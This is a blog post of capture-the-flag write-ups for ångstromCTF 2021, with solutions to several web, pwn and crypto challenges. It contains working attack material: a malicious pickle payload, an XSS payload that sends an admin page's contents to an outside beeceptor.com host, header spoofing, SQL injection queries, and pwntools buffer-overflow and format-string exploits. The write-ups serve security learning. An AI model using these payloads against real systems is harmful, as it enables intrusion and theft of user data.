

This past week I participated in [ångstromCTF 2021](https://2021.angstromctf.com/) along with [CaptureTheFrancesinha](https://ctftime.org/team/111459), the CTF team of my student branch. We managed to place 202nd out of 1245 scoring teams worldwide, which was quite nice! Our team scored 1160 points across several different categories. This CTF had challenges that were a bit harder than the usual CTFs we participate in so the increased challenge was a welcome change for me at least, in order to keep challenging myself and always learning and improving!

For this CTF I went straight away for the harder challenges, with a specific focus on `Web`, for no specific reason that I can recall.
Despite this maybe not being the optimal solution for maximizing the team's points, it gave a good opportunity for some team members to try their hand at some of the easier challenges while I struggled with the harder ones!

Unfortunately, I ended up only getting a few of the harder ones, but in participating like so I think I learned a lot more than just "spamming" the simpler challenges and burning out on that.
It was a good way to prove to myself that I can "aim higher"! (and probably will be good motivation to participate in harder CTFs going forward)

I was sincerely shocked at the quality of this CTF's challenges and their difficulty and complexity, given that it was organized by an US high-school CTF team. I did not know that high-school students had so many opportunities for learning infosec stuff so "early" (compared to what happens in my country at least), which was awesome to see!

According to what I said in my [previous post](../tenable-ctf-2021-writeup), I'm going to make my writeups a bit shorter than usual, in order to not rehash the simpler concepts so much. I may even skip writing about some of the easier challenges (like `tranquil` - just a buffer overflow `"ret2win"`, which I've already covered in the past).

This was the point distribution for the team:



It was nice to see more folks from the team actively participate on the CTF!
Below I'll list the challenges I solved and link to their specific writeup. Those without a link don't have a writeup probably because the challenges were quite simple and/or already covered in previous blog posts. Some of the simpler writeups will also probably be smaller just to ensure that writing this blogpost doesn't consume a whole week like the previous one did :/

I've also been doing some stuff I'm wanting to share here on the blog relating to what I've been doing but that will probably be on the next blogpost, as this one will just focus on the challenges.

## Challenge list

* [Jar (Web) - 70 points](#Jar)
* [Reaction.py (Web) - 150 points](#Reactionpy)
* [Spoofy (Web) - 160 points](#Spoofy)
* [Sea of Quills (Web) - 70 points](#Sea-of-Quills)
* tranquil (Pwn) - 70 points
* Secure Login (Pwn) - 50 points
* [Sanity Checks (Pwn) - 80 points](#Sanity-Checks)
* [stickystacks (Pwn) - 90 points](#stickystacks)
* [Relatively Simple Algorithm (Crypto) - 40 points](#rsa)
* Survey (Misc) - 5 points (lol)

Honorable mention to:
* Raiiid Shadow Legends (Pwn)
* nomnomnom (Web)
* Jason (Web)

Which I did not solve but had lots of fun trying to crack. I also learned some really cool stuff by reading their writeups afterwards!

## Jar (Web) - 70 points {#Jar}

This challenge was a bit on the easier side but since I don't think I've covered pickling on the blog yet, I'll still explain it.

For this challenge we were given a `Dockerfile` that ran the provided code using `gunicorn` and a `jar.py` file:

```python
from flask import Flask, send_file, request, make_response, redirect
import random
import os

app = Flask(__name__)

import pickle
import base64

flag = os.environ.get('FLAG', 'actf{FAKE_FLAG}')

@app.route('/pickle.jpg')
def bg():
	return send_file('pickle.jpg')

@app.route('/')
def jar():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button>' + \
		''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	items.append(request.form['item'])
	response = make_response(redirect('/'))
	response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
	return response

app.run(threaded=True, host="0.0.0.0")
```

As the challenge name (and even the `pickle.jpg` image) suggests, this challenge insecurely unpickles user-controlled input.

The [`pickle` module](https://docs.python.org/3/library/pickle.html) is a way to serialize Python object data structures.
The red warning in the docs should be a good hint: "Warning: The pickle module is not secure. Only unpickle data you trust.
It is possible to construct malicious pickle data which will execute arbitrary code during unpickling."

As such, we can construct a simple script that will generate a cookie value that will get us the flag that is stored in the `flag` variable.

```python
#!/usr/bin/env python3

import os
import pickle
import base64

# Based on https://davidhamann.de/2020/04/05/exploiting-python-pickle/

flag = 'placeholder'
items = []

class Meio:
    def __reduce__(self):
        return eval, ('flag',)

# print(pickle.dumps(Meio()))
print(base64.b64encode(pickle.dumps([Meio(), 'test'])))
```

I tested this locally like so:
```
>>> flag = 'GGez'
>>> import pickle, base64
>>> contents='gASVKwAAAAAAAABdlCiMCGJ1aWx0aW5zlIwEZXZhbJSTlIwEZmxhZ5SFlFKUjAR0ZXN0lGUu'
>>> items = pickle.loads(base64.b64decode(contents))
>>> items
['GGez', 'test']
```

Just by unpickling the data, the flag variable is read into the array, which is then displayed in the page.
Repeating this process for the live server by setting the cookie in the browser gets us the flag: `actf{you_got_yourself_out_of_a_pickle}`

## Reaction.py (Web) - 150 points {#Reactionpy}

This challenge was quite interesting to me, as it is the most "advanced" XSS I have done to date, I believe.

We were provided with the source code for the server (`server.py`):

```python
from flask import escape, session, request, Flask, redirect
from collections import Counter
import uuid
import string
from functools import wraps
from threading import Lock
import subprocess
import json
import requests

# exceptions bad results good
OK = 1
ERR = 2

SAFECHARS = set(string.ascii_letters + string.digits + "_")

# templating engines are for chumps
STYLESHEET = """
TRUNCATED
""".strip()

PAGE_TEMPLATE = f"""
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>Reaction.py demo</title>
        <style>{STYLESHEET}</style>
    </head>
    <body>$$BODY$$<script src="https://www.google.com/recaptcha/api.js" async defer></script></body>
</html>
""".strip()

LOGIN_PAGE = PAGE_TEMPLATE.replace(
    "$$BODY$$",
    """
<form action="/login" method="POST">
    $$ERROR$$
    <a href="/register">Register instead</a>
    <input type="text" name="username" placeholder="username">
    <input type="password" name="pw" placeholder="password">
    <input type="submit" value="login">
</form>
""".strip(),
)

REGISTER_PAGE = PAGE_TEMPLATE.replace(
    "$$BODY$$",
    """
<form action="/register" method="POST">
    $$ERROR$$
    <a href="/login">Login instead</a>
    <input type="text" name="username" placeholder="username">
    <input type="password" name="pw" placeholder="password">
    <input type="submit" value="login">
</form>
""".strip(),
)


with open("secret.txt", "r") as f:
    admin_password = f.read().strip()

with open("flag.txt", "r") as f:
    flag = f.read().strip()

with open("captcha.json", "r") as f:
    captcha = json.load(f)

accounts = {
    "admin": {
        "username": "admin",
        "pw": admin_password,
        "bucket": [f"<p>{escape(flag)}</p>"],
        "mutex": Lock(),
    }
}

def add_component(name, cfg, bucket):
    if not name or not cfg:
        return (ERR, "Missing parameters")
    if len(bucket) >= 2:
        return (ERR, "Bucket too large (our servers aren't very good :((((()")
    if len(cfg) > 250:
        return (ERR, "Config too large (our servers aren't very good :((((()")
    if name == "welcome":
        if len(bucket) > 0:
            return (ERR, "Welcomes can only go at the start")
        bucket.append(
            """
            <form action="/newcomp" method="POST">
                <input type="text" name="name" placeholder="component name">
                <input type="text" name="cfg" placeholder="component config">
                <input type="submit" value="create component">
            </form>
            <form action="/reset" method="POST">
                <p>warning: resetting components gets rid of this form for some reason</p>
                <input type="submit" value="reset components">
            </form>
            <form action="/contest" method="POST">
                <div class="g-recaptcha" data-sitekey="{}"></div>
                <input type="submit" value="submit site to contest">
            </form>
            <p>Welcome <strong>{}</strong>!</p>
            """.format(
                captcha.get("sitekey"), escape(cfg)
            ).strip()
        )
    elif name == "char_count":
        bucket.append(
            "<p>{}</p>".format(
                escape(
                    f"<strong>{len(cfg)}</strong> characters and <strong>{len(cfg.split())}</strong> words"
                )
            )
        )
    elif name == "text":
        bucket.append("<p>{}</p>".format(escape(cfg)))
    elif name == "freq":
        counts = Counter(cfg)
        (char, freq) = max(counts.items(), key=lambda x: x[1])
        bucket.append(
            "<p>All letters: {}<br>Most frequent: '{}'x{}</p>".format(
                "".join(counts), char, freq
            )
        )
    else:
        return (ERR, "Invalid component name")
    return (OK, bucket)

def register(username, pw):
    if not username or not pw:
        return (ERR, "Missing parameters")
    if len(username) > 15 or any(x not in SAFECHARS for x in username):
        return (ERR, "Bad username")
    if username in accounts:
        return (ERR, "User already exists")
    (t, v) = add_component("welcome", username, [])
    if t == ERR:
        return (ERR, v)
    accounts[username] = {
        "username": username,
        "pw": pw,  # please don't use your actual password
        "bucket": v,
        "mutex": Lock(),
    }
    return (OK, username)

def login(username, pw):
    if not username or not pw:
        return (ERR, "Missing parameters")
    if username not in accounts:
        return (ERR, "Username and password don't match")
    if pw != accounts[username]["pw"]:
        return (ERR, "Username and password don't match")
    return (OK, username)

def reset(user):
    del user["bucket"][:]
    return (OK, ())

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

def mustlogin(route):
    @wraps(route)
    def ret():
        if request.cookies.get("secret") == admin_password:
            fakeuser = request.args.get("fakeuser")
            if fakeuser:
                return route(user=accounts[fakeuser])
        if "username" not in session or session["username"] not in accounts:
            return redirect("/login", code=302)
        return route(user=accounts[session["username"]])

    return ret

@app.route("/", methods=["GET"])
@mustlogin
def home(user):
    return PAGE_TEMPLATE.replace("$$BODY$$", "".join(user["bucket"]))

@app.route("/login", methods=["GET"])
def login_page():
    return LOGIN_PAGE.replace("$$ERROR$$", "")

@app.route("/login", methods=["POST"])
def login_post():
    (t, v) = login(request.form.get("username"), request.form.get("pw"))
    if t == ERR:
        return (LOGIN_PAGE.replace("$$ERROR$$", f"""<p class="error">{v}</p>"""), 400)
    session["username"] = v
    return redirect("/", code=302)

@app.route("/register", methods=["GET"])
def register_page():
    return REGISTER_PAGE.replace("$$ERROR$$", "")

@app.route("/register", methods=["POST"])
def register_post():
    (t, v) = register(request.form.get("username"), request.form.get("pw"))
    if t == ERR:
        return (
            REGISTER_PAGE.replace("$$ERROR$$", f"""<p class="error">{v}</p>"""),
            400,
        )
    session["username"] = v
    return redirect("/", code=302)

@app.route("/reset", methods=["POST"])
@mustlogin
def reset_post(user):
    if user["username"] == "admin":
        return ("Cannot reset admin", 400)
    (t, v) = reset(user)
    if t == ERR:
        return (
            PAGE_TEMPLATE.replace("$$BODY$$", f"""<p class="error">{v}</p>"""),
            400,
        )
    return redirect("/", code=302)

@app.route("/newcomp", methods=["POST"])
@mustlogin
def new_component_post(user):
    with user["mutex"]:
        (t, v) = add_component(
            request.form.get("name"), request.form.get("cfg"), user["bucket"]
        )
    if t == ERR:
        return (
            PAGE_TEMPLATE.replace("$$BODY$$", f"""<p class="error">{v}</p>"""),
            400,
        )
    return redirect("/", code=302)

@app.route("/contest", methods=["POST"])
@mustlogin
def contest_submission(user):
    captcha_response = request.form.get("g-recaptcha-response")
    if not captcha_response:
        return ("Please complete the CAPTCHA", 400)
    secretkey = captcha.get("secretkey")
    if secretkey:
        r = requests.post(
            "https://www.google.com/recaptcha/api/siteverify",
            data={"secret": secretkey, "response": captcha_response},
        ).json()
        if not r["success"]:
            return ("Invalid CAPTCHA", 400)
        subprocess.run(
            ["node", "visit.js", user["username"]],
            # stdout=subprocess.DEVNULL,
            # stderr=subprocess.DEVNULL,
            stdin=subprocess.DEVNULL,
        )
        return PAGE_TEMPLATE.replace(
            "$$BODY$$",
            """<p>The admin should have reviewed your submission. <a href="/">Back to homepage</a></p>""",
        )

if __name__ == "__main__":
    app.run(port=8080, debug=False, host="0.0.0.0", threaded=True)
```

And the bot that would visit websites (`visit.js`):

```javascript
const puppeteer = require("puppeteer");
const fs = require("fs");

async function visit(username) {
    const browser = await puppeteer.launch({
        args: (process.env.CHROME_FLAGS || "").split`|`
    });
    const page = await browser.newPage();
    const dom = `127.0.0.1:8080`;
    await page.setCookie({
        name: "secret",
        value: fs.readFileSync("secret.txt", "utf8").trim(),
        httpOnly: true,
        sameSite: "Strict",
        domain: dom
    });
    await page.goto(`http://${dom}/?fakeuser=${encodeURIComponent(username)}`, {waitUntil: "networkidle2", timeout: 10000});
    await page.close();
    await browser.close();
}

if (process.argv[2]) {
    visit(process.argv[2]);
}
```

There's quite a lot of code to read, but the gist is: each user has their own page (a bucket) that they can customize with up to two components. The website can be submitted for a "contest" (for which a captcha needs to be solved!). After doing so, a bot with the admin cookie will visit the website. The admin cookie allows the bot to visit any bucket directly, without logging in as the specific user. The admin's bucket contains the flag.

As such, the objective was clear: We have to leak the admin's bucket somehow, probably by making it visit our page that has some sort of XSS which will send their page to a server we control. This is a good sign for a great CTF challenge: the objective is clear straight away, and the path to it is the challenge itself, rather than having to guess where the flag may be, for example.

In order to solve the challenge I started to look around in the code while also experimenting with the web server. I found the limit of two buckets interesting and concluded that this was probably a hint to tell us that with two buckets we would be able to have XSS. As such, I started looking for places in which user input was _not_ escaped. Most places used Flask's `escape`, but the `freq` "component" didn't!

The `freq` component's content is as follows:
```python
counts = Counter(cfg)
(char, freq) = max(counts.items(), key=lambda x: x[1])
bucket.append(
    "<p>All letters: {}<br>Most frequent: '{}'x{}</p>".format(
	"".join(counts), char, freq
    )
)
```

It creates a `Counter` with our input and outputs the counter and the most frequent character (and its frequency). After experimenting with `Counter` locally, I found out that just using it in a string using `"".join` results in outputting the unique characters. So a payload like `<script>` which does not have any repeated characters will create a script tag!

In the meantime, I also found out something quite useful: We could use a random user with the default page (`welcome` component) to grab the recaptcha token by using this selector: `document.getElementById("g-recaptcha-response").value`. This token could be used in a request to submit our page for the contest without any issue, thus removing the need to include the `welcome` component!

After having the initial step for XSS using the `freq` component, I struggled for a while on where to go next. I thought I would just be able to use a `text` component, but it escaped both single and double quotes! As such, creating strings would be painful, as one would have to use `String.fromCharCode(123,110)` for example. After toying with this for a while, I reached this payload:

```javascript
z=document.createElement(String.fromCharCode(105,102,114,97,109,101));z.src=String.fromCharCode(47);document.body.appendChild(z);setTimeout(function(){fetch(String.fromCharCode(47,47,97,49,51,115,97,46,102,114,101,101,46,98,101,101,99,101,112,116,111,114,46,99,111,109,47)+z.contentWindow.document.body.innerHTML)},500)
```

The "clean" idea was:
```javascript
z=document.createElement('iframe');
z.src="/";
document.body.appendChild(z);
setTimeout(function(){fetch("https://a13sa.free.beeceptor.com/"+z.contentWindow.document.body.innerHTML)},500)
```

However, this was too long! We can only use up to 250 characters and the payload was larger than that! Even after some optimization (like using a variable to reference `String.fromCharCode`), it still had 288 characters...

After googling for a bit, a light bulb lit up over my head! Since Flask's `escape` method is targeted at escaping data to include in HTML, there may be other options, such as using backticks for strings!
Thankfully, that worked, removing the need to use `String.fromCharCode`!

With this payload, I received a request from the admin bot in beeceptor, finally! And the was around 200 characters which was nice!

```javascript
*/d=document;z=d.createElement(`iframe`);z.src=`/`;d.body.appendChild(z);setTimeout(function(){fetch(`https://a14sa.free.beeceptor.com/`,{method:`POST`,body:btoa(z.contentDocument.body.innerHTML)})},300);//
```

Just had one small issue: The data received was of a login form... After looking at the bot's code in further detail we can see that it never authenticates against the website, instead simply using the admin cookie to visit the user buckets. As such, we just need to change where we send the bot to, and give it the `fakeuser` param with the value of `admin`!

Final payload:
```javascript
*/d=document;z=d.createElement(`iframe`);z.src=`/?fakeuser=admin`;d.body.appendChild(z);setTimeout(function(){fetch(`https://a14sa.free.beeceptor.com/`,{method:`POST`,body:btoa(z.contentDocument.body.innerHTML)})},300);//
```

With this, got a request!
```
PHA+YWN0Znt0d29fcGFydF94c3NfaXNfZG91YmxlX3RoZV9wYXJ0c19vZl9vbmVfcGFydF94c3N9PC9wPjxzY3JpcHQgdHlwZT0idGV4dC9qYXZhc2NyaXB0IiBhc3luYz0iIiBzcmM9Imh0dHBzOi8vd3d3LmdzdGF0aWMuY29tL3JlY2FwdGNoYS9yZWxlYXNlcy9iZnZ1ejZ0U2hHNWFvWnA0SzR6UFZmNXQvcmVjYXB0Y2hhX19lbi5qcyIgY3Jvc3NvcmlnaW49ImFub255bW91cyIgaW50ZWdyaXR5PSJzaGEzODQtcE1uL2F0K2lBZ2wwUHBYOEErY2NyN2lQUFNjcDBsSUZzUlRpQzZFa0RGdEozZlRlRkJlSmtQN25aSlRjYkQ1aCI+PC9zY3JpcHQ+PHNjcmlwdCBzcmM9Imh0dHBzOi8vd3d3Lmdvb2dsZS5jb20vcmVjYXB0Y2hhL2FwaS5qcyIgYXN5bmM9IiIgZGVmZXI9IiI+PC9zY3JpcHQ+Cg==
```

Which decodes into:
```html
<p>actf{two_part_xss_is_double_the_parts_of_one_part_xss}</p><script type="text/javascript" async="" src="https://www.gstatic.com/recaptcha/releases/bfvuz6tShG5aoZp4K4zPVf5t/recaptcha__en.js" crossorigin="anonymous" integrity="sha384-pMn/at+iAgl0PpX8A+ccr7iPPScp0lIFsRTiC6EkDFtJ3fTeFBeJkP7nZJTcbD5h"></script><script src="https://www.google.com/recaptcha/api.js" async="" defer=""></script>
```

And here is the flag: `actf{two_part_xss_is_double_the_parts_of_one_part_xss}`

So, a TL;DR of how I solved this one (in terms of requests):
* Reset the components to remove the `welcome` component
* Add the frequency item to the bucket with the beginning of a script tag and escaping the following text
* Add a text tag that can just be JavaScript. (with the escape in the beginning to match the escape previously sent - `/**/` comment)
* It is escaped by Flask's `escape`. However, this is only relevant for HTML and not JavaScript. We can bypass the " and ' restriction using String.fromCharCode(86,89). Using backticks also works and is more efficient.
* We can embed an iframe that goes to the admin bucket (using the `fakeuser` parameter). Going to "/" doesn't work since the admin is not logged in.
* After sending the param of fakeuser=admin in the iframe, we're golden. The script will grab the innerhtml of the iframe and send it to beeceptor.
* (I used post and body + b64 to avoid bad chars since sending in URL was not working).
* **Important:** Since we don't have welcome component but need the captcha response, we can just solve the captcha elsewhere and then send the ID as a param using curl/httpie

## Spoofy (Web) - 160 points {#Spoofy}

This challenge was a good way to highlight how interaction between several different components can go wrong.
It is a simple challenge in which the server will only give you the flag if your IP is "1.3.3.7". Or is it so?

In this challenge the server source code is provided:

```python
from flask import Flask, Response, request
import os
from typing import List

FLAG: str = os.environ.get("FLAG") or "flag{fake_flag}"
with open(__file__, "r") as f:
    SOURCE: str = f.read()

app: Flask = Flask(__name__)


def text_response(body: str, status: int = 200, **kwargs) -> Response:
    return Response(body, mimetype="text/plain", status=status, **kwargs)


@app.route("/source")
def send_source() -> Response:
    return text_response(SOURCE)


@app.route("/")
def main_page() -> Response:
    if "X-Forwarded-For" in request.headers:
        # https://stackoverflow.com/q/18264304/
        # Some people say first ip in list, some people say last
        # I don't know who to believe
        # So just believe both
        ips: List[str] = request.headers["X-Forwarded-For"].split(", ")
        print(ips)
        if not ips:
            return text_response("How is it even possible to have 0 IPs???", 400)
        if ips[0] != ips[-1]:
            return text_response(
                "First and last IPs disagree so I'm just going to not serve this request.",
                400,
            )
        ip: str = ips[0]
        print('a', ip)
        if ip != "1.3.3.7":
            return text_response("I don't trust you >:(", 401)
        return text_response("Hello 1337 haxx0r, here's the flag! " + FLAG)
    else:
        return text_response("Please run the server through a proxy.", 400)
```

So, the key piece here is the `X-Forwarded-For` header.

After reading [this blogpost](https://jetmind.github.io/2016/03/31/heroku-forwarded.html) the answer was obvious: Just send the X-Forwarded-For header twice!
Our IP/proxy IP will be "sandwiched" between the two `1.3.3.7` values and the checks will be successful:
```
miguel@miguel-xps$ curl -H'X-Forwarded-For: 1.3.3.7' -H'X-Forwarded-For:, 1.3.3.7' https://actf-spoofy.herokuapp.com/
Hello 1337 haxx0r, here's the flag! actf{spoofing_is_quite_spiffy}
```

## Sea of Quills (Web) - 70 points {#Sea-of-Quills}

This is a simple ruby web app with an SQL injection vulnerability, with a twist.
We are provided the `app.rb` source file:

```ruby
require 'sinatra'
require 'sqlite3'

set :bind, "0.0.0.0"
set :port, 4567

get '/' do
	db = SQLite3::Database.new "quills.db"
	@row = db.execute( "select * from quills" )
	erb :index
end

get '/quills' do
	erb :quills
end

post '/quills' do
	db = SQLite3::Database.new "quills.db"
	cols = params[:cols]
	lim = params[:limit]
	off = params[:offset]

	blacklist = ["-", "/", ";", "'", "\""]
	blacklist.each { |word|
		if cols.include? word
			return "beep boop sqli detected!"
		end
	}

	if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
		return "bad, no quills for you!"
	end

	@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])

	p @row

	erb :specific
end
```

Can you spot the injection (and the twist)?
We have an SQL injection in the POST endpoint. It's in the `SELECT` clause though.
The default value used for the `columns` parameter was in the HTML template, in an hidden input: `url,name,desc`

Given that we do not have the template files, I assumed that the `:specific` template accessed the column data by name, and thus made some queries:

```
# To get the names of the tables in the db
http -f POST https://seaofquills.2021.chall.actf.co/quills limit=1 offset=0 cols='url,(SELECT name from sqlite_master LIMIT 1) as name,(SELECT name from sqlite_master LIMIT 1 OFFSET 1) as desc'
# "Returned" quills, flagtable in the HTML response:
...
<li class="pb5 pl3">quills <ul><li>flagtable</li></ul></li><br />
...

# Afterwards, assumed that the column name was flag since I was not being able to figure out a way to extract it easily:
http -f POST https://seaofquills.2021.chall.actf.co/quills limit=1 offset=0 cols='url,(SELECT flag from flagtable LIMIT 1) as name,(SELECT 3) as desc'
...
<li class="pb5 pl3">actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df} <ul><li>3</li></ul></li><br />
...
```

Flag: `actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}`

## Sanity Checks (Pwn) - 80 points {#Sanity-Checks}

This was a simple Pwn challenge that was solved by changing the value of some local variables in the stack by abusing a buffer overflow via `gets`.

The provided source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    char password[64];
    int ways_to_leave_your_lover = 0;
    int what_i_cant_drive = 0;
    int when_im_walking_out_on_center_circle = 0;
    int which_highway_to_take_my_telephones_to = 0;
    int when_i_learned_the_truth = 0;

    printf("Enter the secret word: ");

    gets(&password);

    if(strcmp(password, "password123") == 0){
        puts("Logged in! Let's just do some quick checks to make sure everything's in order...");
        if (ways_to_leave_your_lover == 50) {
            if (what_i_cant_drive == 55) {
                if (when_im_walking_out_on_center_circle == 245) {
                    if (which_highway_to_take_my_telephones_to == 61) {
                        if (when_i_learned_the_truth == 17) {
                            char flag[128];

                            FILE *f = fopen("flag.txt","r");

                            if (!f) {
                                printf("Missing flag.txt. Contact an admin if you see this on remote.");
                                exit(1);
                            }

                            fgets(flag, 128, f);

                            printf(flag);
                            return;
                        }
                    }
                }
            }
        }
        puts("Nope, something seems off.");
    } else {
        puts("Login failed!");
    }
}
```

My exploit code:
```python
from pwn import *

context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.binary = elf = ELF('./checks')

def conn():
    if args.REMOTE:
        return remote("shell.actf.co", 21303)
    else:
        return process()

r = conn()
if not args.REMOTE and not args.NO_GDB:
    gdb.attach(r)
    pass

# debug for GDB attach
pause()

# I think it's the other way around
# Yeah confirmed via ghidra that is showing me the comparisons
# Got the order right now, the padding isn't right though, so let's deBrujin it out
new_padding = cyclic(128)
# padding_after_pw = cyclic_find('haaa')
padding_after_pw = 28

# payload = b'password123\0'.ljust(64, b'A') + new_padding + p32(17) + p32(61) + p32(245) + p32(55) + p32(50)
# payload = b'password123\0'.ljust(64, b'A') + b'B'*padding_after_pw + p32(17) + p32(61) + p32(245) + p32(55) + p32(50)
payload = b'password123\0'.ljust(64, b'A') + p32(1) + p32(2) + p32(3) + p32(17) + p32(61) + p32(245) + p32(55) + p32(50)

r.sendline(payload)

# r.clean()
r.interactive()

r.close()
```

The only major pain point for me was forgetting that [`gets` happily receives `\0` (null bytes)](https://stackoverflow.com/questions/5068278/gets-function-and-0-zero-byte-in-input) so we can easily bypass the `strcmp` check (since it stops when it finds a null byte) while still exploiting the BOF.
Before remembering about that I explored the possibility of returning to the middle of the function by overwriting the return address but since the stack frame was not initialized at the beginning of the method, it would crash with a SEGFAULT. Also good to remember that since the stack grows in one direction and we write to the buffer in the opposite direction, the values of the variables we send had to be reversed. This can also be easily checked by seeing how Ghidra shows the order of the comparisons.  
My final problem was not understanding why sending a bunch of `B` bytes for padding didn't work, but sending 3 ints (`p32(1)`, 2 and 3 in the above code) worked for padding.

Flag: `actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}`

## stickystacks (Pwn) - 90 points {#stickystacks}

This was a simple "leak the flag from the stack" challenge, and for this one the "gadget" would be a format string vulnerability.  
I struggled for a bit despite quickly getting the right idea since %x and %d were not working (I was getting parts of the flag but it felt like the values were all being cut off). I even tried %ld and %lld but since we had a 5 character limit this did not work as expected.

Thankfully after remembering about and switching to %p it was smooth sailing.

Provided source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct Secrets {
    char secret1[50];
    char password[50];
    char birthday[50];
    char ssn[50];
    char flag[128];
} Secrets;

int vuln(){
    char name[7];
    Secrets boshsecrets = {
        .secret1 = "CTFs are fun!",
        .password= "password123",
        .birthday = "1/1/1970",
        .ssn = "123-456-7890",
    };

    FILE *f = fopen("flag.txt","r");
    if (!f) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }
    fgets(&(boshsecrets.flag), 128, f);

    puts("Name: ");

    fgets(name, 6, stdin);

    printf("Welcome, ");
    printf(name);
    printf("\n");

    return 0;
}

int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    vuln();

    return 0;
}
```

My exploit code:
```python
from pwn import *

context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.binary = elf = ELF('./stickystacks')

def conn():
    if args.REMOTE:
        return remote("shell.actf.co", 21820)
    else:
        return process()

def send_and_get_data(inp):
    r = conn()
    r.recvline()
    # payload = b'%35$d'
    payload = inp
    r.sendline(payload)
    r.recvuntil(b'Welcome, ')
    val = r.recvline().strip()
    r.close()
    return val

idk = []

go = context.quietfunc(send_and_get_data)

for i in range(33, 43):
    payload = f"%{i}$p"

    data = go(payload)
    # For %d
    # data = struct.pack('!l', int(data))
    print(data, payload)
    # if data != '(nil)':
    #     data = bytes.fromhex(data[2:].decode())[::-1]
    #     print('yay!', data)
    idk.append(data)

print(idk)
```

A helper script to convert hex values to the flag:
```python
data = [
    '6c65777b66746361',
    '61625f6d27695f6c',
    '6c625f6e695f6b63',
    '5f7365795f6b6361',
    '6b6361625f6d2769',
    '5f6568745f6e695f',
    '65625f6b63617473',
    '3439323135623963',
    '3438363737646165',
    '0a7d333935663161'
]

s = ''

for d in data:
    s += bytes.fromhex(d)[::-1].decode()

print(s)
```

Flag: `actf{well_i'm_back_in_black_yes_i'm_back_in_the_stack_bec9b51294ead77684a1f593}`

## Relatively Simple Algorithm (Crypto) - 40 points {#rsa}

The hint for this challenge was a link to [RSA's Wikipedia page](https://en.wikipedia.org/wiki/RSA_(cryptosystem)). I have to say that it's quite accurate, as it is possible to solve just by reading the page.

We were provided with `rsa.py`:
```python
from Crypto.Util.number import getStrongPrime
f = [REDACTED]
m = int.from_bytes(f,'big')
p = getStrongPrime(512)
q = getStrongPrime(512)
n = p*q
e = 65537
d = pow(e,-1,(p-1)*(q-1))
c = pow(m,e,n)
print("n =",n)
print("p =",p)
print("q =",q)
print("e =",e)
print("c =",c)
```

And `rsa.txt`:

```
n = 113138904645172037883970365829067951997230612719077573521906183509830180342554841790268134999423971247602095979484887092205889453631416247856139838680189062511282674134361726455828113825651055263796576482555849771303361415911103661873954509376979834006775895197929252775133737380642752081153063469135950168223
p = 11556895667671057477200219387242513875610589005594481832449286005570409920461121505578566298354611080750154513073654150580136639937876904687126793459819369
q = 9789731420840260962289569924638041579833494812169162102854947552459243338614590024836083625245719375467053459789947717068410632082598060778090631475194567
e = 65537
c = 108644851584756918977851425216398363307810002101894230112870917234519516101802838576315116490794790271121303531868519534061050530562981420826020638383979983010271660175506402389504477695184339442431370630019572693659580322499801215041535132565595864123113626239232420183378765229045037108065155299178074809432
```

A keen eye may recognize that with this information it is possible to reconstruct `d`, the private key, just by looking at the code. Alternatively reading the Wikipedia page would explain that as well.

My solution script:
```python
n = 113138904645172037883970365829067951997230612719077573521906183509830180342554841790268134999423971247602095979484887092205889453631416247856139838680189062511282674134361726455828113825651055263796576482555849771303361415911103661873954509376979834006775895197929252775133737380642752081153063469135950168223
p = 11556895667671057477200219387242513875610589005594481832449286005570409920461121505578566298354611080750154513073654150580136639937876904687126793459819369
q = 9789731420840260962289569924638041579833494812169162102854947552459243338614590024836083625245719375467053459789947717068410632082598060778090631475194567
e = 65537
c = 108644851584756918977851425216398363307810002101894230112870917234519516101802838576315116490794790271121303531868519534061050530562981420826020638383979983010271660175506402389504477695184339442431370630019572693659580322499801215041535132565595864123113626239232420183378765229045037108065155299178074809432

# Private key, can be computed from p and q, since we have them. Should only have: n, e, c
# c is the encrypted message
d = pow(e,-1,(p-1)*(q-1))

# https://en.wikipedia.org/wiki/RSA_(cryptosystem)#Decryption

# Decrypting via wikipedia example!
m = pow(c,d,n)

print(m)
